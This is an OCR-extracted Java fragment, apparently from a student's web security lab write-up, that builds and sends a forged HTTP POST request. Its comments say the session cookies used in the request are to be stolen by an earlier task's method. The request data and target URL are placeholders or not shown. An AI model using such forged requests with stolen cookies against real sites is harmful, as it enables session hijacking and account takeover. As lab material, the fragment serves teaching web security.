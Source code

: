 ```
	// can represent.
	HttpURLConnection urlConn = (HttpURLConnection) url.openConnection();
	if (urlConn instanceof HttpURLConnection) {
	urlConn.setConnectTimeout(60000);
	urlConn.setReadTimeout(90000);
	}
	// addRequestProperty method is used to add HTTP Header Information.
	// Here we add User-Agent HTTP header to the forged HTTP packet.
	// Add other necessary HTTP Headers yourself. Cookies should be stolen
	// using the method in task3.
	urlConn.addRequestProperty(&#34;User-agent&#34;,&#34;Sun JDK 1.6&#34;);
	//HTTP Post Data which includes the information to be sent to the server.
	String data = &#34;name=...&amp;guid=..&#34;;
	// DoOutput flag of URL Connection should be set to true
	// to send HTTP POST message.
	urlConn.setDoOutput(true);
	// OutputStreamWriter is used to write the HTTP POST data
	// to the url connection.
	OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
	wr.write(data);
	wr.flush();
	// HttpURLConnection a subclass of URLConnection is returned by
	// url.openConnection() since the url is an http request.
	if (urlConn instanceof HttpURLConnection) {
	HttpURLConnection httpConn = (HttpURLConnection) urlConn;
	// Contacts the web server and gets the status code from
	// HTTP Response message.
	responseCode = httpConn.getResponseCode();
	System.out.println(&#34;Response Code = &#34; + responseCode);
	// HTTP status code HTTP_OK means the response was
	// received sucessfully.
	if (responseCode == HttpURLConnection.HTTP_OK)
	// Get the input stream from url connection object.
	responseIn = urlConn.getInputStream();
	// Create an instance for BufferedReader
	// to read the response line by line.
	BufferedReader buf_inp = new BufferedReader(
	new InputStreamReader(responseIn));
	String inputLine;
	while((inputLine = buf_inp.readLine())!=null) {
	System.out.println(inputLine);
	}
	}
	} catch (MalformedURLException e) {
	e.printStackTrace();
	}
	} 
	}
```

### lab5 XSS蠕虫 ##
